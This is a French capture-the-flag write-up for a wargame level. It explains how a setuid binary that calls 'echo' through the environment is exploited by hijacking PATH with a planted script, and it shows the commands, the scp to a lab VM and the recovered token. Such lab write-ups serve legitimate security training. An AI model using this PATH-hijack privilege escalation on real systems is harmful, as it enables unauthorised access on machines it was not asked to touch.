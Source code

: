 # Level 03

Dans le home de `level03` on remarque qu'il existe un binaire nommé `level03`. En executant la commande `ls -la`, on peut voir un stickybit qui nous informe que le binaire s'exécute avec les droits de l'owner, c'est à dire `flag03`.

```sh
~ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Quand on lance le binaire, il écrit sur l'entrée standart `Exploit me`, on comprend alors qu'il faut faire du reverse engineering.

```sh
~ ./level03
Exploit me
```

On décompile le binaire avec [ghidra](https://ghidra-sre.org/) pour une meilleure compréhension car il décompile en `ASM` et traduit l'`ASM` en pseudo-code `C`. (Screenshots en pseudo-code `C`)

![Pseudo Code C du binaire Level03](../../assets/level03-ghidra-c.png)

On peux voir qu'il utilise l'enviromnent pour appeler `echo`. On crée un dossier `myPath` dans `/tmp` contenant un script bash appelé `echo` qui appelle la commande `getflag`.

```shell
~ mkdir /tmp/myPath
~ scp -P 4242 echo level03@192.168.56.101:/tmp/myPath
level03@192.168.56.101 s password:
echo                                            100%   25    33.6KB/s   00:00
~ chmod 777 /tmp/myPath/echo
~ export PATH=/tmp/myPath:$PATH
~ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
~ su level04
Password:
```
